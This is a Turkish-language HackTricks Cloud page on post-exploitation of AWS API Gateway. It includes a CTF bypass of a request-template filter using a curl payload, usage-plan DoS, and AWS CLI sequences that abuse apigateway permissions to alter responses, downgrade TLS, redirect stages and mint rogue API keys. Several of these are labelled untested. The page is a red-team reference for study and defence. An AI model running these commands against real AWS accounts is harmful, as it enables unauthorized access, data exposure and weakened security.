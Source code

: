 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## API Gateway

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Açık olmayan API'lere erişim

[https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) adresinde `com.amazonaws.us-east-1.execute-api` servisi ile bir uç nokta oluşturabilirsiniz, uç noktanızı erişiminiz olan bir ağda (potansiyel olarak bir EC2 makinesi aracılığıyla) açığa çıkarın ve tüm bağlantılara izin veren bir güvenlik grubu atayın.\
Daha sonra, EC2 makinesinden uç noktaya erişebilecek ve daha önce açığa çıkarılmamış olan gateway API'yi çağırabileceksiniz.

### İstek gövdesi geçişini atlatma

Bu teknik [**bu CTF yazısında**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=en&_x_tr_pto=wapp) bulundu.

[**AWS belgelerinde**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) `PassthroughBehavior` bölümünde belirtildiği gibi, varsayılan olarak, **`WHEN_NO_MATCH`** değeri, isteğin **Content-Type** başlığını kontrol ederken, isteği herhangi bir dönüşüm olmadan arka uca iletecektir.

Bu nedenle, CTF'de API Gateway, `Content-Type: application/json` ile bir istek gönderildiğinde **bayrağın dışarı sızmasını engelleyen** bir entegrasyon şablonuna sahipti:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Ancak, **`Content-type: text/json`** ile bir istek göndermek bu filtreyi engelleyecektir.

Son olarak, API Gateway yalnızca `Get` ve `Options` izin verdiğinden, gövdeye sorguyu koyarak ve `X-HTTP-Method-Override: GET` başlığını kullanarak sınırsız bir dinamoDB sorgusu göndermek mümkündü:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Kullanım Planları DoS

**Enumeration** bölümünde anahtarların **kullanım planını** nasıl **edineceğinizi** görebilirsiniz. Anahtarınız varsa ve bu anahtar **aylık X kullanım** ile **sınırlıysa**, **onu kullanabilir ve bir DoS oluşturabilirsiniz**.

**API Anahtarı**, **`x-api-key`** adlı bir **HTTP başlığı** içine **dahil edilmelidir**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

`apigateway:UpdateGatewayResponse` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir Gateway Yanıtını, hassas bilgileri sızdıran veya kötü niyetli betikleri çalıştıran özel başlıklar veya yanıt şablonları içerecek şekilde değiştirebilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Olası Etki**: Hassas bilgilerin sızdırılması, kötü niyetli betiklerin çalıştırılması veya API kaynaklarına yetkisiz erişim.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

`apigateway:UpdateStage` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway aşamasını trafiği farklı bir aşamaya yönlendirecek şekilde değiştirebilir veya önbellek ayarlarını değiştirerek önbelleğe alınmış verilere yetkisiz erişim elde edebilir**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potansiyel Etki**: Önbelleğe alınmış verilere yetkisiz erişim, API trafiğini kesintiye uğratma veya yakalama.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

`apigateway:PutMethodResponse` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **mevcut bir API Gateway REST API yönteminin yöntem yanıtını, hassas bilgileri sızdıran veya kötü niyetli betikleri çalıştıran özel başlıklar veya yanıt şablonları içerecek şekilde değiştirebilir**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potansiyel Etki**: Hassas bilgilerin sızması, kötü niyetli betiklerin çalıştırılması veya API kaynaklarına yetkisiz erişim.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

`apigateway:UpdateRestApi` ve `apigateway:CreateDeployment` izinlerine sahip bir saldırgan, **API Gateway REST API ayarlarını güncelleyerek günlüklemeyi devre dışı bırakabilir veya minimum TLS sürümünü değiştirebilir, bu da API'nin güvenliğini zayıflatabilir**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potansiyel Etki**: API'nin güvenliğini zayıflatma, yetkisiz erişime veya hassas bilgilerin ifşasına neden olma.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

`apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` ve `apigateway:CreateUsagePlanKey` izinlerine sahip bir saldırgan **yeni API anahtarları oluşturabilir, bunları kullanım planlarıyla ilişkilendirebilir ve ardından bu anahtarları API'lere yetkisiz erişim için kullanabilir**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potansiyel Etki**: API kaynaklarına yetkisiz erişim, güvenlik kontrollerinin atlatılması.

{% hint style="info" %}
Test edilmesi gerekiyor
{% endhint %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
